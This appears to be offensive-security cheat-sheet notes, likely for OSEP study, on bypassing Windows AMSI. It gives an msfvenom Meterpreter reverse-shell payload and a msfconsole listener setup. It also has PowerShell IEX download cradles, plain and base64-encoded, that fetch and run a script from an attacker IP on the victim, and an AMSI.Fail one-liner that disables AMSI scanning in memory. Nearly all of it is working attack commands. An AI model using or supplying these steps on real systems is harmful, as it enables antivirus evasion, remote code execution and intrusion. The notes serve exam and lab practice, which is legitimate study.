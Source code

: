 # AMSI Bypass

<details>

<summary>Powershell Shellcode Runner</summary>

* Download all files from [https://github.com/beauknowstech/OSEP-Everything/tree/main/AMSI](https://github.com/beauknowstech/OSEP-Everything/tree/main/AMSI)

- Change Line 1 of `runall.ps1` to Kali's IP

* Host Python Webserver on Kali&#x20;
* Generate the following payload & put in line 44 of shellcoderunner.ps1

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f powershell
```

* Start Msfconsole listener

```bash
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 443; set ExitOnSession false; exploit -j"
```

* Run following in victim

```powershell
#In CMD.exe
powershell -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1')

#In Powershell.exe
IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1')

#Base64 encoded powershell
IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1') save to to_encode.txt
python b64_encode.py to_encode.txt
powershell -e SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADEAOQA3AC8AcgB1AG4AYQBsAGwALgBwAHMAMQAnACkA
```

</details>

<details>

<summary><a href="https://amsi.fail/">AMSI.Fail</a></summary>

```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

</details>

